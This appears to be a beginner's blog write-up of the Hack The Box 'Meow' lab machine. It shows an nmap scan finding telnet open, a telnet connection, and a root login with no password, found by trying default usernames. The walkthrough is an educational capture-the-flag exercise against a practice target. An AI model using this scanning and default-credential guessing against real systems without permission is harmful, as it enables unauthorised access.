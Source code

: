 # 🐱 Meow | Hack The Box

Hello everyone, in this blog post I’ll share how I solved the **Meow** challenge on Hack The Box.

Okay, let’s start…
**Note:** I’m not an expert. I’m writing this blog just to document my learning journey. 🚀

---

### 🔍 Step 1: Scan the Target with Nmap

I started by scanning the target IP using `nmap`.

```
nmap -A 10.129.1.17
```

**Output (summary):**

```
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
```

So port **23 (telnet)** is open, and it’s running a Linux `telnetd` service.

---

### 📡 Step 2: Connect via Telnet

At first, when I typed the `telnet` command, I got an error:

```
command not found
```

So I installed Telnet:

```
apt install telnet
```

Then I connected:

```
telnet 10.129.1.17
```

---

### 🔑 Step 3: Try Default Credentials

I tried some default usernames and passwords:

- `admin`
- `administrator`
- and finally... `root`

✅ **Bingo! `root` worked without a password!**

---

### 🎉 Step 4: Capture the Flag

Once I logged in as root, I looked around and found the flag.

```
cat flag.txt
```

Hahhh 😅 finally, I captured the flag…

---

### 🎯 Final Thoughts

This was a fun and simple box — perfect for beginners like me who are just starting with Hack The Box. The key takeaway: **check open services, try default logins, and don’t overthink simple challenges**.

Happy hacking! 😄
